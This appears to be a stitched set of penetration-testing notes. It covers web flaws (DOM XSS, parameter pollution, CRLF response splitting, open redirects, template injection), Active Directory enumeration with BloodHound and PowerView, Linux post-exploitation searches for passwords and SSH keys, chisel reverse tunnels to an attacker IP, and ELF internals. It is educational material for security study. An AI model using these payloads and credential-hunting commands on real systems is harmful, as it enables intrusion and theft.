The fragment part (#test=val) is never sent to the server - it is only available locally.
Suppose you had the following client-side Javascript code running:
const pos = document.URL.indexOf("test=") + 5;
const value = document.URL.substring(document.URL.indexOf("test=") + 5, document.URL.length);
document.write(value);
An attacker could craft the following URL:
http://127.0.0.1:8080/example.html#test=<script>alert('xss')</script>
However, if a victim clicks on this link, no Javascript should be injected, since the browser would usually automatically escape it - you would get
%3Cscript%3Ealert('xss')%3C/script%3E
printed on the page. If you, however, unescape the Javascript in your client-side code, it will get executed.
Overview
HTTP Parameter Pollution describes the set of techniques used for manipulating how a server handles parameters in an HTTP request. This vulnerability may occur when duplicating or additional parameters are injected into an HTTP request and the website trusts them. Usually, HPP (HTTP Parameter Pollution) vulnerabilities depend on the way the server-side code handles parameters.
Server-Side HPP
You send the server unexpected data, trying to make the server give an unexpected response. A simple example could be a bank transfer.
Suppose, your bank performs transfers on its website through the use of HTTP parameters. These could be a recipient= parameter for the receiving party, an amount= parameter for the amount to send in a specific currency, and a sender= parameter for the one who sends the money.
A URL for such a transfer could look like the following:
https://www.bank.com/transfer?sender=abcdef&amount=1000&recipient=ghijkl
It may be possible that the bank server assumes it will only ever receive a single sender= parameter, however, submitting two such parameters (like in the following URL), may result in unexpected behaviour:
https://www.bank.com/transfer?sender=abcdef&amount=1000&recipient=ghijkl&sender=ABCDEF
An attacker could send such a request in hopes that the server will perform any validations with the first parameter and actually transfer the money from the second account specified. When different web servers see duplicate parameters, they handle them in different ways.
Even if a parameter isn't sent through the URL, inserting additional parameters may still cause unexpected server behaviour. This is especially the case with server code which handles parameters in arrays or vectors through indices. Inserting additional parameters at different places in the URL may cause reordering of the array values and lead to unexpected behaviour.
An example could be the following:
https://www.bank.com/transfer?amount=1000&recipient=ghijkl
The server would deduce the sender on the server-side instead of retrieving it from an HTTP request.
Normally, you wouldn't have access to the server code, but for a POC I have written a simple server in a pseudo-code (no particular language).
sender.id = abcdef
function init_transfer(params)
{
params.push(sender.id) // the sender.id should be inserted at params[2]
prepare_transfer(params)
}
function prepare_transfer(params)
{
amount = params[0]
recipient = params[1]
sender = params[2]
transfer(amount, recipient, sender)
}
Two functions are created here, init_transfer and prepare_transfer which takes a params vector. This function also later invokes a transfer function, the contents of which are currently out of scope. Following the above URL, the amount parameter be 1000, the recipient would be ghijkl. The init_transfer function adds the sender.id to the parameter array. Note, that the program expects the sender ID to be the 3rd (2nd index) parameter in the array in order to function properly. Finally, the transfer params array should look like this: [1000, ghijkl, abcdef].
Now, an attacker could make a request to the following URL:
https://www.bank.com/transfer?amount=1000&recipient=ghijkl&sender=ABCDEF
In this case, sender= would be included into the parameter vector in its initial state (before the init_transfer function is invoked). This means that the params array would look like this: [1000, ghijkl, ABCDEF]. When init_transfer is called, the sender.id variable would be appended to the vector and so it would look like this: [1000, ghijkl, ABCDEF, abcdef]. Unfortunately, the server still expects that the correct sender would be located at params[2], but that is no longer the case since we managed to insert another sender. As such, the money would be withdrawn from ABCDEF and not abcdef.
Client-Side HPP
These vulnerabilities allow the attacker to inject extra parameters in order to alter the client-side. An example of this is included in the following presentation: https://owasp.org/www-pdf-archive/AppsecEU09_CarettoniDiPaola_v0.8.pdf.
The example URL is
http://host/page.php?par=123%26action=edit
The example server code is the following:
<? \\( val=htmlspecialchars( \\)_GET['par'],ENT_QUOTES); ?>
<a href="/page.php?action=view&par='.<?=\\( val?>.'">View Me!</a>
Here, a new URL is generated based on the value of a parameter \\)val. Here, the attacker passes the value 123%26action=edit onto the parameter. The URL-encoded value for & is %26. When this gets to the htmlspecialchars function, the %26 gets converted to an &. When the URL gets formed, it becomes
<a href="/page.php?
action=view&par=123&action=edit">
And since this is view as HTML, an additional parameter has been smuggled! The link would be equivalent to
/page.php?
action=view&par=123&action=edit
This second action parameter could cause unexpected behaviour based on how the server handles duplicate requests.
Introduction
HTTP Response Splitting occurs when user-provided input isn't sanitised and CRLFs are injected into HTTP responses. This is usually done through URL parameters. This type of attack typically requires social engineering or at least some user interaction.
HTTP responses consist of message headers and a message body. The headers are separated from the body with 2 CRLFs - \r\n\r\n. An attacker could inject this character sequence into a header and terminate the header section - this could result in XSS, since anything after the 2 CRLFs will be treated as HTML.
Imagine a custom header X-Name: Bob which is set via a parameter in a GET request called name. If input isn't properly sanitised, an attacker could craft the following URL which would result in XSS:
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
In other cases, HTTP response splitting may be used to send two responses to a single request by injecting the second response into the first one. A URL like the following could change the contents of a legitimate page that the target visits:
application.com/redir.php?lang=hax%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%d%aContent-Length:%2019%0d%0a<html>Hacked</html>
All the target needs to do, is visit the URL.
Overview
Open redirect vulnerabilities occur when a target visits a website which sends their browser to another URL. These attacks only redirect users and as such are often considered to be of low severity.
How Do They Work
Open redirects occur when a developer mistrusts user input, which redirects to another site, usually via a URL
parameter, HTML <meta> tags, or the DOM window
location property.
URL Parameter Redirect
Suppose that Google could redirect users to their Gmail service via the following URL:
https://www.google.com/?redirect_to=https://www.gmail.com
In this case, visiting www.google.com would result in your browser sending an HTTP request to the Google web server. The server would process this request and return a status code - typically 302, although it may sometimes be 301, 303, 307, or 308. This code would inform the browser that the page has been found, however, it would also tell it to make an additional HTTP request to www.gmail.com. This will be noted in the Location: header of the HTTP response. This header specifies where to redirect GET requests. An attacker could change the value of the redirect_to parameter and forward you to their malicious server.
Common redirection parameter names include url=, redirect=, next=, however, they may also be denoted by a single letter at times.
Meta Refresh Tag Redirect
HTML <meta> tags can tell a browser to reload a page and make a GET request to a specified URL. This URL is defined in the tag's content attribute.
This is an example of such a tag:
<meta http-equiv="refresh" content="0; url=https://www.google.com/">
First, the content attribute defines the number of seconds the browser should wait before making the request to the URL. Secondly, it specifies the URL to make the request to.
Javascript Redirect
Open redirects can be exploited by modifying the window's location property through the Document Object Model. This property denotes where a request should be redirected to.
An attacker may change the location property through any of the following ways:
window.location = https://www.google.com/
window.location.href = https://www.google.com
window.location.replace(https://www.google.com)
This type of open redirect is usually chained with some sort of XSS.
Overview
Template Injection occurs when an attacker injects malicious template code into an input field and the templating engine doesn't sanitise the input. As such, the expression provided by the attacker may be evaluated and can lead to all sorts of nasty vulnerabilities such as RCE.
Server-Side Template Injection
SSTI occurs when the injection happens on the server-side. Templating engines are associated with different programming languages, so you might be able to execute code in that language when SSTI occurs.
Testing for SSTI is template engine-dependent because different engines make use of a different syntax. It is, however, common to see templates enclosed in two pairs of {{}}.
You should look for places in a webpage where user input is reflected. If you inject {{7*'7'}} and see 49 or 7777777 somewhere, then you know you have SSTI. This syntax isn't standard. You will need to identify the running template engine and use the correct syntax.
Client-Side Template Injection
This vulnerability occurs in client template engines, which are written in Javascript. Such engines are Google's AngularJS and Facebook's ReactJS.
CSTI typically occur in browser, so they typically cannot be used for RCE, but may be exploited for XSS. This can be difficult, since most engines do a good job at sanitising input and preventing XSS.
When interacting with ReactJS, you should look for dangerouslySetInnerHTML function calls where you can modify the input. This function intentionally bypasses React's XSS protections.
AngularJS versions before 1.6 include a sandbox in order to limit the available Javascript functions, but bypasses have been found. You can check the AngularJS version by typing Angular.version in the developer console. A list of bypasses can be found at https://pastebin.com/xMXwsm0N, however, more are surely available online.
Windows
Introduction
Shell Command Files (SCF) permit a limited set of operations and are executed upon browsing to the location where they are stored. What makes them interesting is the fact that they can communicate through SMB, which means that it is possible to extract NTLM hashes from Windows hosts. This can be achieved if you are provided with write access to an SMB share.
The Attack
You will first need to create a malicious .scf file where you are going to write a simple (you can scarcely even call it that) script.
Post Exploitation
Active Directory (AD)
Overview
Bloodhound is a tool used for finding relationships and patterns within data from an Active Directory environment. It is run on the attacker's machine and accessed through a web interface. Bloodhound operates on data and this data comes from a collector which is executed on the target machine.
Setup
- Install Bloodhound
sudo apt install bloodhound
- Configure neo4j - Bloodhound relies on a different tool called neo4j. It is best to change its default credentials.
- run neo4j
sudo neo4j console- open the link it gives you and use the credentials neo4j:neo4j to login
- change the password
Collecting Data for Bloodhound
Data is obtained through a collector. There are different ones available. You can get SharpHound from the Bloodhound GitHub repo - https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1.
Start neo4j and bloodhound:
sudo neo4j console
sudo bloodhound
Run the collector on the target machine:
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <domain> -ZipFileName <output file>
/Resources/Images/bloodhound/sharphoundcollector.png)
Now, move the files to the attacker machine.
Viewing the Data
In Bloodhound, on the right you should see a button for Upload Data. Select the previously obtained zip file and wait for Bloodhound to process it.
/Resources/Images/bloodhound/uploaddata.png)
In the top left, click on the three dashes and you should see a summary of the data imported:
/Resources/Images/bloodhound/importedsummary.png)
Finding Relationships in the Data
Through the analysis tab, you can see a bunch of pre-made queries. Their names are usually self-describing. Clicking on any of them will generate a particular graph expressing a specific relationship within the AD environment:
/Resources/Images/bloodhound/domainadmins.png)
You are also able to create custom queries.
Overview
PowerView is a PowerShell tool for the enumeration of Windows domains. The script can be downloaded from https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1.
Before running, you need to bypass PowerShell's execution policy:
powershell -ep bypass
/Resources/Images/powershell-ep-bypass.png)
Load the script using
. .\PowerView.ps1
Normally, you'd be running these commands through some sort of shell, but for the sake of simplicity, I will show them all run locally.
Get Domain Information
Get-NetDomain
/Resources/Images/getnetdomain.png)
Get Domain Controller Information
Get-NetDomainController
/Resources/Images/getnetdomaincontroller.png)
Retrieve Domain Policy Information
Get-DomainPolicy
/Resources/Images/getdomainpolicy.png)
You can also get information about a specific policy with the following syntax:
(Get-DomainPolicy)."policy name"
/Resources/Images/getsystemaccessdomainpolicy.png)
Get Users Information
Get-NetUser
The output of this command is rather messy, but you can pull specific information with the following syntax:
Get-NetUser | select <property>
/Resources/Images/getnetusersamaccname.png)
However, there is an even better way to do that.
Get User Property Information
Get a specific properties of all the users:
Get-DomainUser -Properties <property1>,<property2>,...
It is useful to always have the samaccountname as the first property selected, so that you can easily match properties with specific users.
/Resources/Images/getdomainuserproperty.png)
Get Domain Machines
Get-DomainComputer | select samaccountname, operatingsystem
/Resources/Images/getdomaincomputers.png)
Get Groups
Get-NetGroup | select samaccountname, admincount, description
/Resources/Images/getdomaingroups.png)
Get Group Policy Information
Get-NetGPO | select <property1>,<property2>,...
/Resources/Images/getnetgpo.png)
Additional Resources
https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
Finding Files Containing Passwords
Find all files in a directory which contain "pass" or "password", ignoring case:
grep --color=auto -rnw '<dir>' -ie "password\|pass" --color=always 2>/dev/null

Find all files in a directory which contain "pass" or "password" in their name, ignoring case:
find / -name "*pass*" 2>/dev/null

Finding SSH Keys
find / -name id_rsa 2>/dev/null

List Network Interfaces and Network Information
Get a list of the network interfaces connected to the machine with their IPs and MACs:
ip a

Get a list of the machines that the victim has been interacting with (print the ARP table):
ip neigh

List Open Ports
netstat -ano

Introduction
System enumeration is a crucial, typically first, step in the enumeration phase of post-exploitation.
Enumerating the Distribution Version
cat /etc/issue

Enumerating Linux Kernel Version Information
uname -a

cat /proc/version

Enumerating CPU Architecture
lscpu

Enumerating Running Services
ps aux

File System Enumeration
List files owned by a certain user in a directory:
find <dir> -user <user name> 2>/dev/null

List files owned by a certain user in a directory (without /proc):
find <dir> -user <user name> 2>/dev/null | grep -v "/proc"

List files owned by a certain group in a directory:
find <dir> -group <group name> 2>/dev/null
find <dir> -group <group name> 2>/dev/null | grep -v "/proc" # ignore /proc

Enumerate User Name and Group
whoami

id

Enumerate Commands Runnable as Root
sudo -l

List Users on the Machine
cat /etc/passwd

Get History of Commands the User Has Run
history

Introduction
Pivoting is the act of establishing access to internal resources on a network through a compromised machine. This allows an adversary to exifltrate local data which is usually not accessible from the outside world. Moreover, it permits the use of hacking tools as if they were running from inside the network.
Introduction
SSH Tunneling is a port forwarding technique which uses SSH. It can be used to access internal resources within a network if you have SSH access to a host inside it. Additionally, the tunnel goes through a pre-existing SSH connection and can thus be utilised for bypassing firewalls.
Local Port Forwarding
Local port forwarding is used when you want to create a bridge to a port that hosts an internal service which does not accept connections from outside the network. For this to work, you need to specify two ports - one for the service on the remote machine which you want to access and one on your local machine to create the listener on. Any packets sent to your machine on the local port will be tunneled to the port on the remote machine through the SSH connection. Whilst you will still receive any responses to requests you send through the tunnel, you won't be able to receive arbitrary data that gets sent to the remote port.

The syntax is fairly simple:
ssh -L [LOCAL_IP:]LOCAL_PORT:DESTINATION:DESTINATION_PORT SSH_SERVER
[LOCAL_IP:]- the interface you want to open the listener on. This can be omitted and defaults tolocalhost.LOCAL_PORT- the port you want to start the listener on. Any traffic sent to this port will be forwarded through the tunnel.DESTINATION- the destination host. This does not need to (and most likely won't) matchSSH_SERVER, since you are now trying to access an internal resource.DESTINATION_PORT- the port on the remote machine, that you want to access through the tunnel.
You can also add -N -f to the above command, so that ssh runs in the background and only opens the tunnel without giving an interface for typing commands.

We have now established a tunnel on my Kali machine's port 8080, which will forward any traffic to 192.168.129.137:1337, which is my ubuntu server. So let's see if we can access the web page.

Wait, what? We just created the tunnel, but it does not seem to work? Well, remember how the DESTINATION does not need to match the server's IP? This is because the DESTINATION is where the traffic is sent after it gets to the remote machine. In a sense, the remote machine is now the sender and not us. Therefore, in order to access a resource internal to the network, we would need to change DESTINATION to something like localhost or another computer's IP.

Let's again check to see if we have access to the resource hidden behind localhost:1337 on the Ubuntu server...

Remote Port Forwarding
Remote port forwarding is sort of the reverse of local port forwarding. A tunnel is opened and any traffic sent to the tunnel port on the remote machine will be forwarded to the local machine. In the exact same way as above, once the traffic is tunneled, the local machine becomes the sender. Therefore, remote port forwarding is more useful when you want to receive traffic from inside the network, rather than injecting it. You will be able to actively receive any data that is sent to the remote port, but you won't be able to send arbitrary data through the tunnel yourself.
The syntax is also very similar:
ssh -R [REMOTE:]REMOTE_PORT:DESTINATION:DESTINATION_PORT SSH_SERVER
[REMOTE:]- the remote host to listen on. This resembles theLOCAL_IPwhen local port forwarding and can be omitted. If left empty, the remote machine will bind on all interfacesREMOTE_PORT- the port on the remote machine that is part of the tunnel.DESTINATION:DESTINATION_PORT- the host and port that the traffic should be sent to once it gets from the remote machine back to the local machine
Once again, you can add -N -f to the command, so that ssh runs in the background and only opens the tunnel without giving an interface for typing commands.
Introduction
Chisel is an open-source application for port tunneling. You can get it from https://github.com/jpillora/chisel. Clone the repo and follow the installation instructions.
In order to port tunnel with chisel, you need to have a copy of the binary on both the attacking and the compromised machines.
Creating a reverse tunnel
Run the following command on the attacking machine:
chisel server -p [Listen Port] --reverse &
This will setup a chisel server on Listen Port.
On the compromised systenm run:
chisel client [Attacker IP]:[Listen Port] R:[Local Host]:[Local Port]:[Remote Host]:[Remote Port] &
This will endeavour to connect to a chisel server at the specified Attacker IP and Listen Port. Once it has connected to the remote chisel server, the chisel server will open Remote Port on the Remote Host and tunnel it to the Local Port of Local Host. From now on, any traffic sent to Remote Port on the Remote Host will be forwarded to the Local Port of Local Host.
Chisel also defines some defaults for these values, which means you can omit some of them:
Local Host - 0.0.0.0
Remote Host - 0.0.0.0 (server localhost)
As an example, suppose you start a chisel server on your attacking machine (10.10.10.189) on port 1337, and want to gain access to port 3306 on the compromised machine. On the attacking machine you run:
chisel server -p 1337 --reverse &
On the compromised system you will run:
chisel client 10.10.10.189:1337 R:localhost:3306:localhost:31337 &
The above basically translates to "Forward any traffic intended for port 31337 localhost on my attacking machine to port 3306 on the localhost of the compromised system".
1. Goals of Malware Analysis
Malware analysis serves the purpose of providing the information needed to respond to a network intrusion. You will typically need to determine what took place and make sure that you have identified all of the infected machines and files. In analyzing suspected malware, you will seek to determine exactly what it does, how it can be detected on a network, and how to measure and contain its damage.
- host-based signatures - also known as indicators, are used to detect malicious code on victim computers. These often identify files created and/or modified by the malware or specific changes it makes to the registry. Unlike antivirus signatures, malware indicators focus on what the malware does to a system and not on what its characteristics are. Hence why they are better at detected malware which mutates or has been erased from the hard disk.
- network singnatures - they detect malware by analyzing network traffic.
2. Malware Analysis Techniques
- Basic Static Analysis - examining the executable without looking at the actual instructions. It can provide confirmation of whether a file is malicious, information about its functionality, and information for producing network signatures. It is straightforward and often quick, but rather ineffective against sophisticated malware.
- Basic Dynamic Analysis - running the malware and examining its behaviour in order to remove it from the system, produce effective signatures, or both. It requires an environment to run the malware without affecting your host system or network.
- Advanced Static Analysis - reverse-engineering the malware by loading the executable into a disassembler and examining the program instructions in order to piece together what the program does.
- Advanced Dyanamic Analysis - using a debugger to look at the internal state of the malicious code at runtime.
3. Types of malware
- to be finished
1. Antivirus Scanning
A good first step when analyzing possible malware is to scan it with multiple antivirus programs, which may already have identified the malicious code. However, AV tools are not perfect. The are reliant on a database which contains file signatures - identifiable pieces of known malicious code, and on heuristics - the analysis of behaviour combined with pattern-matching. Rare and modified malware can easily evade AV detection simply because it is not contained its database.
One should run several different antivirus programs against the prospective malicious code, since different AVs use different signatures and heuristics. As such, websites like VirusTotal can prove very useful in these situations - they allow you to upload files to be scanned by multiple antivirus engines.
2. Hashing
Hashing is a method commonly used for uniquely identifying malware. It can serve as a sort of fingerprint for the malicious code. The Message-Digest Algorithm 5 (MD5) is often used for this purpose, however, the Secure Hash Algorithm 1 (SHA-1) is also popular.
On Windows, one can generate such a hash by using CertUtil:

On Linux, the md5sum command is usually available:

Once you have a unique hash for some malware, you can use it in the following ways:
- using the hash as a label
- sharing the hash with other analysts to help them identify the malware
- look up the hash online to see if it has been previously identified
It is recommended to use sha256sum when you identify malware because md5sum is vulnerable to collision attacks.
3. Finding Strings
A string is a sequence of characters. A program may contain many different strings - printing a message, connecting to URLs, accessing file locations, etc. Searching through the strings in a program can give hints about its functionality. If a program creates or modifies a specific file, you will be able to see the string of the file location in the program. The Strings command can be used to seach a binary for strings that are usually stored in ASCII or Unicode format:

Note: I haven't used actual malicious code, but instead a little program that I created.
Introduction
Hyperlinking is a novel shell code execution technique which allows shell code to invoke procedures from external libraries by abusing the dynamic linker. Typically shell code must rely on syscalls to serve its duty, but this is now no longer the case. The technique has currently only been developed and tested for ELF executables with a PE extension on its way.
Reverse Engineering
Introduction
The Executable and Linkable Format (ELF) has established itself as the standard binary format for Unix operating systems and their derivatives. Under LINUX, BSD variants, and other operating systems, ELF is used for executables, shared libraries, object files, core files, and even the kernel boot image.
Structure
An ELF file comprises an ELF header followed by data. Inside lie the Program Header Table and the Section Header Table. The former describes memory segments, while the latter outlies the sections.
File Types
An ELF file may be any of the following:
ET_NONE- indicates an unknown file type which has not yet been defined.ET_REL- a relocatable file, also sometimes referred to as an object filed. Relocatable object files typically contain position independent code (PIC) that has not yet been linked into an executable and often have the extension.o.ET_EXEC- this is an executable file.ET_DYN- a shared object. This file can be dynamically linked and is also known as a shared library. Such files are loaded and linked into a process' image at runtime by the dynamic linker. Additionally, theseDYNfiles can also serve as standalone executables.ET_CORE- a core-dump file. These are full images of a process during a crash or when aSIGSEGVis returned. These files can be read by debuggers to aid in determining the cause of the crash
Introduction
Dynamic linking permits the loading of libraries at runtime, which avoids their incorporation into the executable at compile time and, consequently, saves a drastic amount of disk space at the cost of significantly complicating the linking process. The dynamic linker has to go through the instructions and fix any calls to external functions after the required libraries have been mapped into the running executable. Additionally, the default behaviour is the so-called lazy loading - function addresses aren’t even resolved until the first time a procedure is invoked (although this can be overridden when compiling the executable).
How It Works
Dynamically-linked programmes contain a segment of type PT_INTERP which holds the path to the programme's interpreter. Upon execution, the interpreter is invoked and control flow is transferred to it. Subsequently, the interpreter loads the PT_LOAD segments of the programme. Then it uses the dynamic segment (.dynamic) to locate and load all dependencies from disk into memory. Since each dependency may also contain other dynamic dependencies, this process is recursive. Once this is done, relocations are performed. Subsequently, the initialisation functions (those in the .preinit_array, .init, and .init_array sections) of the shared libraries are invoked. Finally, the interpreter transfers execution to the programme's entry point as if nothing had happened.

Lazy Loading
The above process, while working, is very unoptimised. Imagine how much time will be wasted loading thousands of symbols at start-up for large programmes. Moreover, a programme could exit prematurely due to incorrect input and what then? All those symbols which got loaded never got used and so resources were again wasted. The solution to this problem, which is also nowadays the default behaviour, is to use the so-called *lazy loading*. Instead of loading every symbol before the programme even starts, symbols are loaded at the time of their first use. More specifically, functions are resolved when they are first invoked. This is all enabled by the *Procedure Linkage Table (PLT)* and the *Global Offset Table (GOT)*.The Global Offset Table
The Global Offset Table is a section which gets loaded into the memory image of an ELF file. When lazy loading is enabled, the GOT is writable. Ultimately, the GOT stores absolute addresses but is referenced in a position-independent way. Thus, it serves as a converter from relative to absolute addresses. It is an array of 32- or 64-bit addresses. It is paramount to note that the GOT holds *values* and *not* instructions, so disassembling it will result in garbage.The Procedure Linkage Table
The Procedure Linkage Table resembles the GOT in the sense that it redirects position-independent function calls to absolute locations. This table contains entries of executable code which are 3 instructions long. You can view the PLT of an ELF file using this command: `objdump -d -j .plt
There is an entry for every function that is located in a shared library. The first instruction in each entry jumps to the location specified in the corresponding entry of the Global Offset Table. If the function has been called before, this will be the absolute address of its definition in the shared library and so execution flow will be forwarded directly to the function.

If this is the first time that the procedure is being invoked, the entry in the Global Offset Table will point to the next instruction in the relevant PLT entry. This instruction pushes the relocation argument (relog_arg) for this symbol onto the stack. Finally, the third instruction jumps to the first entry in the PLT - PLT0. This entry is special. In reality, it only contains two instructions (the third is there for alignment purposes). The first instruction in PLT0 pushes the address of the link map onto the stack. The link map is a structure which describes all the dependencies that the ELF file requires and its address is stored in the first entry of the GOT. Next, PLT0 jumps to a function called _dl_runtime_resolve, whose address is stored in the second entry of the GOT.

_dl_runtime_resolve
_dl_runtime_resolve is a special procedure which is what actuates the dynamic linking process. It does not follow standard calling conventions and instead retrieves its arguments directly from the stack. It takes the link_map and the relocation argument, reloc_arg. Under the hood, _dl_runtime_resolve is just a wrapper around several other procedures which will ultimately locate the requested symbol, change its entry in the GOT and then forward execution to it.
Initially, the relocation argument is used in order to locate the appropriate entry in the relocation table of the executable. The r_info member of this entry is then used to find the corresponding element in the dynamic symbol table. From there, st_name is utilised to pinpoint the location of the name of the function in the string table. Subsequently, _dl_runtime_resolve avails itself of this string in order to look it up in the code of the library. Once the address is found, r_offset is used to locate where in the GOT the address should be placed (note that despite its use, r_offset is actually an offset from the beginning of the ELF header). At last, _dl_runtime_resolve_ forwards execution to the function initially invoked with any arguments which were provided to it.

Introduction
The word "relocation" describes the process of matching symbol references with symbol definitions. ELF files contain relocation entries which store information about how to modify the contents of the file's sections in order to resolve the symbol references.
These relocation entries are represented by the following structs and are stored in relocation sections:
/* Relocation table entry without addend (in section of type SHT_REL). */
typedef struct
{
Elf32_Addr r_offset; /* Address */
Elf32_Word r_info; /* Relocation type and symbol index */
} Elf32_Rel;
typedef struct
{
Elf64_Addr r_offset; /* Address */
Elf64_Xword r_info; /* Relocation type and symbol index */
} Elf64_Rel;
/* Relocation table entry with addend (in section of type SHT_RELA). */
typedef struct
{
Elf32_Addr r_offset; /* Address */
Elf32_Word r_info; /* Relocation type and symbol index */
Elf32_Sword r_addend; /* Addend */
} Elf32_Rela;
typedef struct
{
Elf64_Addr r_offset; /* Address */
Elf64_Xword r_info; /* Relocation type and symbol index */
Elf64_Sxword r_addend; /* Addend */
} Elf64_Rela;
The r_offset field points to the location that ultimately needs to be altered when the relocation is performed. For example, for functions this will typically point to somewhere in the Global Offset Table. For relocatable files this field contains an offset within a section to be modified. For shared objects and executable files, r_offset stores a virtual address where the relocation should take place.
r_info holds the symbol table index for the associated index as well as the type of relocation to be performed, which is platform-specific. Relocation types are ultimately computations that are performed in order to determine what value is to be stored at the relocation site. This information can be extracted by means of the following macros:
#define ELF32_R_SYM(val) ((val) >> 8)
#define ELF32_R_TYPE(val) ((val) & 0xff)
#define ELF32_R_INFO(sym, type) (((sym) << 8) + ((type) & 0xff))
#define ELF64_R_SYM(i) ((i) >> 32)
#define ELF64_R_TYPE(i) ((i) & 0xffffffff)
#define ELF64_R_INFO(sym,type) ((((Elf64_Xword) (sym)) << 32) + (type))
r_addend just specifies a constant value which is used to compute the value which will be ultimately stored at the relocation site.
Entries of type ElfN_Rel are stored in sections of type SHT_REL, while entries of type ElfN_Rela are stored in sections of type SHT_RELA. An ELF file may only contain relocation entries of one type and the reasons for using one type over the other are typically architecture-dependent. Every relocation sections can contain references to two other sections. First of all, a relocation section will be linked to its corresponding symbol table and the index of its section header can be retrieved from the sh_link field of the relocation section. For relocatable files, the index of the section for which r_offset is relevant is stored in the sh_info field of the relocation section's header.
You can view the relocation entries of an ELF file by using the -r flag with readelf:

Introduction
Sections comprise the entirety of an ELF binary with the exception of the ELF header, the Programme Header Table and the Section Header Table. Each section is characterised by a single section header. A section must occupy a contiguous block of space in the file and section overlap is not allowed - each byte in the file may only belong to a single function. However, bytes may also pertain to no sections at all, in which case their contents are unspecified.
It is paramount to understand that sections are not loaded as such into the memory image of the binary. Instead, specific parts from them are organised and grouped by the ELF segments. You can imagine sections as turning into segments during load-time. Sections themselves are really only relevant for linking and debugging purposes.
The Section Header Table (SHT)
Sections are described by section headers which are in turn stored in the Section Header Table (SHT). Since the SHT is not pertinent to a binary at runtime, it may be stripped from the file entirely. A corollary of this is the fact that while every ELF object has sections, but not every ELF object has section headers. In fact, a common procedure for hindering reverse engineering and debugging of a binary is to strip the section header table, which makes life rather difficult for debuggers, since they will be unable to directly reference symbol information. Note, however, that this information may still be recovered via analysis of the rest of the binary, and more specifically, of the Programme Header Table due to its inherent overlap between segments and sections.
Ultimately, the section header table is an array of the following structures:
typedef struct
{
Elf32_Word sh_name; /* Section name (string tbl index) */
Elf32_Word sh_type; /* Section type */
Elf32_Word sh_flags; /* Section flags */
Elf32_Addr sh_addr; /* Section virtual addr at execution */
Elf32_Off sh_offset; /* Section file offset */
Elf32_Word sh_size; /* Section size in bytes */
Elf32_Word sh_link; /* Link to another section */
Elf32_Word sh_info; /* Additional section information */
Elf32_Word sh_addralign; /* Section alignment */
Elf32_Word sh_entsize; /* Entry size if section holds table */
} Elf32_Shdr;
typedef struct
{
Elf64_Word sh_name; /* Section name (string tbl index) */
Elf64_Word sh_type; /* Section type */
Elf64_Xword sh_flags; /* Section flags */
Elf64_Addr sh_addr; /* Section virtual addr at execution */
Elf64_Off sh_offset; /* Section file offset */
Elf64_Xword sh_size; /* Section size in bytes */
Elf64_Word sh_link; /* Link to another section */
Elf64_Word sh_info; /* Additional section information */
Elf64_Xword sh_addralign; /* Section alignment */
Elf64_Xword sh_entsize; /* Entry size if section holds table */
} Elf64_Shdr;

sh_name- the offset (in bytes) from the beginning of the section name string table at which the name of the current section is located.sh_type- the type of the section.sh_flags- sections support 1-bit flags which describe certain attributes.sh_addr- if the section is to be loaded into the memory image of the file, this field contains the address at which the section should reside. It holds 0 otherwise.sh_offset- the offset (in bytes) from the beginning of the file where the section resides. For sections of typeSHT_NOBITS, this portrays only a conceptual position.sh_size- the section's size in bytes. Sections of typeSHT_NOBITSmay have this field set to a non-zero value, but will still occupy no space in the file.sh_link- a link to another section header. The interpretation of this field depends on the section's type.sh_info- this field holds additional information and its interpretation is different based on the section's type
sh_type | sh_link | sh_info |
|---|---|---|
SHT_DYNAMIC | The section header index of the string table used by entries in the section. | 0 |
SHT_HASH | The section header index of the symbol table to which the hash table pertains. | 0 |
SHT_RELSHT_RELA | The section header index of the associated symbol table. | The section header index of the section to which the relocation applies. |
SHT_SYMTABSHT_DYNSYM | The section header index of the associated string table. | One greater than the symbol table index of the last local symbol (binding STB_LOCAL). |
SHT_GROUP | The section header index of the associated symbol table. | The symbol table index of an entry in the associated symbol table. The name of the specified symbol table entry provides a signature for the section group. |
SHT_SYMTAB_SHNDX | The section header index of the associated symbol table section. | 0 |
sh_addralign- certain sections have alignment constraints. For example, if the section holds a doubleword, doubleword alignment is to be ensured for the entire section. Values 0 and 1 mean that the section requires no special alignment. Otherwise, only positive integral values of 2 are allowed for this field. Ultimately,sh_addrmust be divisible bysh_addralign.sh_entsize- if the section contains some sort of a table of fixed-sized entries, this field holds the entry size. If no such table is present, this member holds 0.
If the number of section headers is greater than or equal to SHN_LORESERVE (0xff00), then the e_shnum field of the ELF header holds SHN_UNDEF (0) and the actual number of section headers is stored in the sh_size field of the first entry in the section header table.
Certain indices in the section header table are reserved. The first section header has the following form:
| Name | Value | Note |
|---|---|---|
sh_name | 0 | No name |
sh_type | SHT_NULL | Inactive |
sh_flags | 0 | No flags |
sh_addr | 0 | No address |
sh_offset | 0 | No offset |
sh_size | Unspecified | If non-zero, the actual number of section header entries |
sh_link | Unspecified | If non-zero, the index of the section header string table section |
sh_info | 0 | No auxiliary information |
sh_addralign | 0 | No alignment |
sh_entsize | 0 | No entries |
The other reserved indices are described in the following table:
| Name | Value |
|---|---|
SHN_UNDEF | 0 |
SHN_LORESERVE | 0xff00 |
SHN_LOPROC | 0xff00 |
SHN_HIPROC | 0xff1f |
SHN_LOOS | 0xff20 |
SHN_HIOS | 0xff3f |
SHN_ABS | 0xfff1 |
SHN_COMMON | 0xfff2 |
SHN_XINDEX | 0xffff |
SHN_HIRESERVE | 0xffff |
SHN_LORESERVE- the lower bound for reserved indices.SHN_LOPROCthroughSHN_HIPROC- reserved for processor-specific semantics.SHN_LOOSthroughSHN_HIOS- reserved for OS-specific semantics.SHN_ABS- specifies absolute values. For example, symbol definitions relative to this section number are absolutes and are not affected by relocation.SHN_COMMON- symbols defined relative to this section are "common" symbols such as unallocatedCexternal variables.SHN_XINDEX- an escape value denoting an index which cannot fit in the containing field and thus must be found elsewhere (this is specific to the structure it is found in).SHN_HIRESERVE- the upper bound for reserved indices.
You can view the section header table by using the -S option in readelf.

Section Types
SHT_NULL
The section header is marked as inactive and lacks an associated section. The rest of the members of such a header have undefined values.
SHT_PROGBITS
